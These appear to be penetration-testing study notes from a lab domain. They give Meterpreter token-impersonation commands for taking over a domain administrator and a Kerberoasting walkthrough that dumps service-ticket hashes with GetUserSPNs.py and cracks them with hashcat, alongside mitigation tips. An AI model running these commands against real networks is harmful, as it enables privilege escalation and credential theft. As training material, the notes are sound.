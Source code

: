 ```bash
load # double tab >> show options of tools to load
load incognito
help #incognito commands
list_tokens -u
impersonate_token marvel\\administrator
shell

#use rev2self to switch back to you
```

Token Impersonation Mitigation Strategies
- limit user/group token creation permissions
- account tiering >> domain admin should ONLY be logging into domain controllers
- local admin restriction

# Kerberoasting Overview
**Kerberos**:
1. DC = the key distribution center (KDS)
2. user = needs to authenticate to DC >> request the ticket granting ticket (TGT)
3. DC sends TGT and encrypts with TGT hash
4. user then requests ticket granting service (TGS) for the server/app
5. DC send TGS encrypted with server account hash
6. user presents TGS for service/app
7. app server says yes or no

❗️ Goal of kerberoasting = get TGS and decrypt server's account hash
1. Get SPNs, dump hash
```bash
python GetUserSPNs.py <domain/username:password> -dc-ip <IP of DC> -request
```
2. copy hash and try to crack it
```bash
hashcat64.exe -m 13100 kerberoast.txt rockyou.txt -O
```

Walkthrough:
```bash
GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
#copy and save hash output
#will use hashcat
hashcat --help | grep Kerberos #will use 13100
hashcat64.exe -m 13100 kerberoast.txt rockyou.txt -O
#will prsent credentials
```

Kerberoasting mitigation:
- strong passwords
- least privilege - do NOT make service accounts domain administrators

# GPP / cPassword Attacks Overview
Old, but still relevant >> MS14-025
Group Policy Pwnage: [https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
